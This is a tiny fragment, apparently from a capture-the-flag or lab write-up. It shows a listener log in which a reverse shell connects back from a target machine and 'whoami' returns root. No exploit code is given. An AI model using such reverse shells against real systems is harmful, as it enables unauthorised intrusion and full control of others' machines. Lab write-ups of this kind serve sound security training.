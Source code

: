 ```
connect to [10.10.14.10] from (UNKNOWN) [10.10.10.209] 52922
/bin/sh: 0: can't access tty; job control turned off
# whoami
root
```
